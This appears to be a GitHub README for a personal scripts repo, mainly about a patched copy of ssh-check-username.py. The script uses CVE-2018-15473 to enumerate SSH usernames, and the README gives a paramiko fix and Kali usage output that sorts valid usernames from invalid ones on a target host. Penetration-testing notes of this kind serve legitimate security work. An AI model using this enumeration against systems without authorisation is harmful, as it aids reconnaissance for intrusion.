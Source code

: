 # Scripts
I will be putting fixed, modified or created scripts here that are not necessarily part of a project.

# ssh-check-username.py
Original: https://bugfuzz.com/stuff/ssh-check-username.py
I had an issue running this script with the current Kali. The problem is with changes to paramiko. See: https://github.com/paramiko/paramiko/issues/1314

The solution is to replace instances of the text '_handler_table' with '_client_handler_table'.
I will place the fixed file on this repo.

The purpose of this script is to use a recent vulnerability, CVE-2018-15473, to enumerate users on a system through ssh.
Usage:<br />
root@kali:/media/veracrypt1/2_linux/9F18c/scripts/python# python ssh-check-username.py 10.0.0.20 bob<br />
[*] Invalid username<br />
root@kali:/media/veracrypt1/2_linux/9F18c/scripts/python# python ssh-check-username.py 10.0.0.20 root<br />
[+] Valid username<br />

